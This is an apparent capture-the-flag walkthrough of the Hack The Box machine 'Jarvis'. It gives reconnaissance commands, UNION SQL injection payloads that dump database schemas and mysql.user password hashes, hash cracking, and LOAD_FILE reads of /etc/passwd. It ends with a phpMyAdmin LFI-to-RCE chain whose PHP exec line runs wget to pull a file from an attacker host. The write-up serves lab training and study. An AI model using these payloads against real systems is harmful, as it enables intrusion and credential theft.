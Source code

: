 # Jarvis Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``sleep 200; nmap -p- -sV -T4 -oA fulljarvis 10.10.10.143``

![image](https://user-images.githubusercontent.com/123066149/229436971-2ac49bee-6bec-4cb3-a4a5-c8d07e47e3c7.png)

``gobuster dir -u http://10.10.10.143/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt``

![image](https://user-images.githubusercontent.com/123066149/229437070-e500e07c-3622-4ba7-b9e9-741ba0ebfdcd.png)

### Finding directory phpmyadmin 4.8.0 :
### Default file for the version is README

![image](https://user-images.githubusercontent.com/123066149/229437335-62d801d4-50cb-479c-a350-1be4bc5dad0c.png)

# ${{\color{purple}Initial Foothold}}\ $

### The way to take over the machine is an sql injection  :

![image](https://user-images.githubusercontent.com/123066149/229437711-6a1afefd-036b-4dd8-b4a3-7560dd8afdbc.png)

### When we inject ``'`` with have a different output :

![image](https://user-images.githubusercontent.com/123066149/229437837-60e5b37f-8d03-4982-a87f-eb26d6835646.png)

``ffuf -u http://10.10.10.143/room.php?cod=1FUZZ -w /usr/share/seclists/Fuzzing/special-chars.txt -c``

![image](https://user-images.githubusercontent.com/123066149/229438586-97b8a239-e459-498d-b33b-04b5f1f0c89c.png)

### Size of response is different we need to search why 
### As we can see math operator work's :

![image](https://user-images.githubusercontent.com/123066149/229439358-c15a1d80-06d5-43a7-b78f-4cdfc7c6ea39.png)

![image](https://user-images.githubusercontent.com/123066149/229439657-050d08cc-1f85-4023-ac3d-8015d0429ee3.png)

https://dev.mysql.com/doc/refman/8.0/en/select.html

https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

``http://10.10.10.143/room.php?cod=4%20union%20select%201,2,3,4,5,6,7``

### The request works because it is possible to guess the query:

``Select id, image-url, rating, room-name, cost, description, UNKNOWN from rooms where cod =4-- -``

![image](https://user-images.githubusercontent.com/123066149/229440425-12b89310-a20e-442f-a858-4db82b080ae4.png)

### if I place an error at the beginning of the request we can notice that the parameter 3 is weird:

![image](https://user-images.githubusercontent.com/123066149/229443106-5610dc09-41fa-4484-9b10-1abe8ea38845.png)

![image](https://user-images.githubusercontent.com/123066149/229443398-074d0aff-8586-430a-8203-96be7f46971c.png)

### I used pentesmonkey mysql cheat sheet for this request :

https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

![image](https://user-images.githubusercontent.com/123066149/229444737-27dc2dbb-3d51-4c2a-9a55-c22b986a7337.png)

### To list information schema on one line is not possible :

![image](https://user-images.githubusercontent.com/123066149/229451240-5a0a25c4-77c9-4933-8399-448a216943ea.png)

``9999+union+select+"1","2",(SELECT+schema_name+FROM+information_schema.schemata+LIMIT+1),"4","5","6","7"``

![image](https://user-images.githubusercontent.com/123066149/229452214-2fd50e3e-5188-449b-8a23-f378bdb4fbfb.png)

``9999+union+select+"1","2",(SELECT+schema_name+FROM+information_schema.schemata+LIMIT+1,1),"4","5","6","7"``

![image](https://user-images.githubusercontent.com/123066149/229452667-6a1e96e3-1337-48df-8fe6-e484508156a1.png)

### It's possible to gather the results with concat :

![image](https://user-images.githubusercontent.com/123066149/229453497-175239d2-ccca-44a6-8c0a-9ecc2d40e138.png)

### List the hotel fields :

``9999+union+select+"1","2",(SELECT+group_concat(TABLE_name,":",column_name,"\r\n")+FROM+information_schema.columns+where+TABLE_schema+=+'hotel'),"4","5","6","7"``

![image](https://user-images.githubusercontent.com/123066149/229460758-9b66fe38-ac9c-4259-8733-3950be98c360.png)

### List the mysql fields :

```9999+union+select+"1","2",(SELECT+group_concat(TABLE_name,":",column_name,"\r\n")+FROM+information_schema.columns+where+TABLE_schema+=+'mysql'),"4","5","6","7"``

![image](https://user-images.githubusercontent.com/123066149/229462427-218bdea4-faed-4ed1-a18c-306de873bb16.png)

### List the mysql users and password :

``9999+union+select+"1","2",(SELECT+group_concat(host,":",user,":",password,"\r\n")+FROM+mysql.user),"4","5","6","7"``

![image](https://user-images.githubusercontent.com/123066149/229463676-042e1e26-5d03-4e02-84e6-5318813eb1aa.png)

# ${{\color{purple}Exploitation}}\ $

### Cracking the hash :

![image](https://user-images.githubusercontent.com/123066149/229464356-5644a339-d2fd-4e9e-9dc9-f88d7550cfaa.png)

``john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt``

![image](https://user-images.githubusercontent.com/123066149/229464446-d5cde2e0-5ded-4fe2-9212-6ac564dfa73a.png)

# ${{\color{purple}Other way}}\ $

``9999+union+select+"1","2",(LOAD_FILE("/etc/passwd")),"4","5","6","7"``

![image](https://user-images.githubusercontent.com/123066149/229465436-f53d184f-ff1a-4284-9469-d96f37864013.png)

``9999+union+select+"1","2",(TO_base64(LOAD_FILE("/etc/passwd"))),"4","5","6","7"``

![image](https://user-images.githubusercontent.com/123066149/229465981-34f40f7e-fde5-4629-b2b7-c236840636d3.png)

``9999+union+select+"1","2",(TO_base64(LOAD_FILE("/var/www/html/connection.php"))),"4","5","6","7"``

![image](https://user-images.githubusercontent.com/123066149/229466471-733a7434-e1e8-4e77-9fc3-0864ca165c5e.png)

``9999+union+select+"1","2",(select+'<?php+phpinfo();+%3f>'),"4","5","6","7"%2bINTO%2bOUTFILE%2b'/var/www/htm/monkmode.php'``

![image](https://user-images.githubusercontent.com/123066149/229472439-16bfa538-a29e-4c96-9dd7-a23f1929f838.png)

### Login to phpmyadmin :

![image](https://user-images.githubusercontent.com/123066149/229473081-fd0ce9a8-e0e0-410e-ad35-15685b093fe6.png)

![image](https://user-images.githubusercontent.com/123066149/229473137-22a9eb2b-7ca6-43d1-a93e-656c954bb1a7.png)

![image](https://user-images.githubusercontent.com/123066149/229474142-7fc2c8c9-77e2-4c0a-b824-8b7a1403e794.png)

https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/

![2023-04-03 11_51_56-kali-linux-2022 4-vmware-amd64 - VMware Workstation](https://user-images.githubusercontent.com/123066149/229514508-92a07676-e3ea-4db9-ab27-a8292cd0982b.png)

``SELECT ‘<?php exec("wget -O /var/www/html/a.php http://10.10.14.9/a.php"); ?>’``

![image](https://user-images.githubusercontent.com/123066149/229514703-b28fbe5a-73a9-469f-898b-d2a7d66d47df.png)

![image](https://user-images.githubusercontent.com/123066149/229515012-2328451a-d02d-45ca-a281-a80a3f391a20.png)

### You need the admin cookie at the end of the LFI:

``http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_f6lc52281ieb0ujkr4m6nsk1i4vpbqc4``

![image](https://user-images.githubusercontent.com/123066149/229515506-84c01b11-7653-4ed8-9d82-3f6a31a7d7e7.png)

# ${{\color{purple}Privilege Escalation}}\ $

# ${{\color{purple}Exploitation}}\ $

# ${{\color{purple}Point of Improvement}}\ $

